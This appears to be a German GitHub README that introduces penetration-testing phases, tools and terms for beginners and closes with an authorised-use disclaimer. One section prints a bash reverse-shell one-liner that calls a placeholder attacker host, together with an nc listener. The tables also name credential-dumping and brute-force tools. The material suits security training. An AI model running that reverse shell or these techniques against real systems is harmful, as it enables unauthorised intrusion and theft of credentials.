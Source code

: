 # 🛡️ Pentest Basics – Einstieg ins Penetration Testing

> Diese Übersicht vermittelt dir die wichtigsten Schritte, Tools und Begriffe für manuelle sowie automatisierte Pentests. Perfekt für Anfänger und zur Prüfungsvorbereitung.

## Inhaltsverzeichnis
- [Pentesting-Phasen (PTES)](#pentesting-phasen-ptes)
- [1. Reconnaissance (Passive Informationsbeschaffung)](#1-reconnaissance-passive-informationsbeschaffung)
- [2. Scanning & Enumeration (Aktive Analyse)](#2-scanning--enumeration-aktive-analyse)
- [3. Exploitation (Angriff)](#3-exploitation-angriff)
- [4. Post-Exploitation](#4-post-exploitation)
- [5. Rechteausweitung (Privilege Escalation)](#5-rechteausweitung-privilege-escalation)
- [Wichtige Tools (Essentials)](#wichtige-tools-essentials)
- [Begriffe & Techniken](#begriffe--techniken)
- [Beispiel: Reverse Shell (Linux Bash)](#beispiel-reverse-shell-linux-bash)
- [Nützliche Links](#nützliche-links)
- [Haftungsausschluss](#haftungsausschluss)

---

## Pentesting-Phasen (PTES)

1. **Reconnaissance** – Informationsgewinnung  
2. **Scanning & Enumeration** – Zielsysteme identifizieren  
3. **Exploitation** – Schwachstellen ausnutzen  
4. **Post-Exploitation** – Vertiefung und Ausweitung des Zugriffs  
5. **Reporting** – Ergebnisdokumentation

---

## 1. Reconnaissance (Passive Informationsbeschaffung)

| Tool / Befehl                   | Zweck                                  |
|---------------------------------|----------------------------------------|
| `whois domain.com`              | Whois-Informationen zur Domain         |
| `nslookup`, `dig`               | DNS-Abfragen                           |
| `theHarvester`                  | E-Mail- und Domaininfos sammeln        |
| `shodan.io`                     | IoT- und öffentlich erreichbare Geräte |
| `Google Dorking`                | Spezielle Google-Suchabfragen          |

---

## 2. Scanning & Enumeration (Aktive Analyse)

### Netzwerkscan

| Tool / Befehl                   | Beschreibung                            |
|---------------------------------|------------------------------------------|
| `nmap -sS 192.168.1.1`          | TCP SYN-Scan                            |
| `nmap -sV -O target.com`        | Version + OS-Erkennung                  |
| `nmap --script vuln`            | Verwundbarkeits-Scan                    |

### Dienste enumerieren

| Tool                  | Zweck                              |
|-----------------------|------------------------------------|
| `enum4linux`          | SMB/NetBIOS-Enumeration            |
| `smbclient`           | Zugriff auf offene SMB-Shares      |
| `ldapsearch`          | LDAP-Abfrage                       |
| `nikto`               | Webserver-Scan (Verwundbarkeiten)  |
| `dirb` / `gobuster`   | Verzeichnisse und Dateien entdecken|

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## 3. Exploitation (Angriff)

| Tool / Technik        | Beschreibung                       |
|-----------------------|-------------------------------------|
| `msfconsole`          | Metasploit-Framework                |
| `searchsploit`        | Exploit-Datenbank (offline)         |
| `python -m http.server` | Dateiserver für Payloads         |
| `sqlmap`              | SQL-Injection automatisieren        |
| `xss`, `csrf`, `rce`  | Gängige Schwachstellen              |

---

## 4. Post-Exploitation

| Technik / Tool        | Beschreibung                         |
|-----------------------|----------------------------------------|
| `netstat -ano`        | Offene Verbindungen prüfen            |
| `mimikatz`            | Windows-Credentials extrahieren       |
| `lsass` Dumping       | Tokens auslesen                       |
| `linuxprivchecker.py`| Privilege Escalation auf Linux testen |
| `linPEAS`, `winPEAS`  | Automatisiertes PE-Tool               |

---

## 5. Rechteausweitung (Privilege Escalation)

| Linux                                | Windows                              |
|-------------------------------------|--------------------------------------|
| SUID/SGID Binary-Missbrauch         | Unquoted Service Paths               |
| Schwache Cronjobs                   | AlwaysInstallElevated               |
| `sudo -l`                           | DLL Hijacking                        |
| Kernel-Exploits (Exploit-DB)        | Token-Impersonation                  |

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Wichtige Tools (Essentials)

| Tool              | Zweck                                   |
|-------------------|------------------------------------------|
| `Burp Suite`      | Web Application Testing (Proxy, Scanner) |
| `Hydra`, `Medusa` | Brute Force auf Login-Portale            |
| `Netcat`          | Reverse/Bind Shells                      |
| `John`, `Hashcat` | Passwort-Cracking                        |
| `Wireshark`       | Netzwerkverkehr analysieren              |
| `ncat`            | Verschlüsselter Netcat-Ersatz            |

---

## Begriffe & Techniken

| Begriff         | Bedeutung                                     |
|-----------------|-----------------------------------------------|
| CVE             | Common Vulnerabilities and Exposures         |
| CVSS            | Common Vulnerability Scoring System          |
| PoC             | Proof of Concept (z. B. funktionierender Exploit) |
| Pivoting        | Nutzung eines kompromittierten Systems als Sprungbrett |
| Tunneling       | Verkehr über andere Protokolle/Ports schleusen |

---

## Beispiel: Reverse Shell (Linux Bash)

```bash
# Opfer (Opfer bekommt Shell):
bash -i >& /dev/tcp/attacker-ip/4444 0>&1

# Angreifer:
nc -lvnp 4444
```

---

### 🗒️ Reporting Tipps

- Beschreibung der Schwachstelle
- Reproduktionsschritte
- Risiko (CVSS-Score, falls verfügbar)
- Screenshot / Beweis
- Empfehlung zur Behebung

---

## Nützliche Links

- [Hack The Box](https://www.hackthebox.com/)
- [TryHackMe](https://tryhackme.com/dashboard) 
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [GTFOBins](https://gtfobins.github.io/)
- [Exploit-DB](https://www.exploit-db.com/)
- [Red Team Notes](https://book.hacktricks.wiki/en/index.html)

---


## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---